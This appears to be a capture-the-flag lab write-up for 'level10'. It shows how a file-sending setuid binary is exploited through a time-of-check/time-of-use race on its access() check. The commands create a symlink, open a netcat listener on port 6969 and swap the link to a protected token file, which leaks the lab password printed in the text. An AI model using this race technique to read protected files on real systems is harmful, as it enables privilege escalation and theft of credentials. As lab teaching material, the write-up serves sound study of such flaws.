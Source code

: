 sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"


The binary is using the access command to check if it is allowed to send the file to the specified host => exploit access 

The binary is a server sending the file in arg to specified host on port 6969

When testing the program with a dummy file and ```nc -l 6969```, we realize that it writes a header ".*( )*.\n" before sending the file
=> write a program that reads line by line to change file with a symbolic link just after the header is received

create a symlink to a dummy file with permissions :
```echo "exploit" > /tmp/myfile```
```ln -s /tmp/myfile /tmp/link```

copy the 2 scripts with ```scp -P 4242 script1.py level10@[VM_IP]:/tmp```
we ready the server with ```nc -lk 6969``` and we launch the first script ```python /tmp/script1.py``` and the second ```python /tmp/script2.py``` in parallel 
the second script switch the symlink between the dummy file and the token very fast giving alternatively the exploit output and the password : woupa2yuojeeaaed06riuj63c

```su flag10```
```getflag```
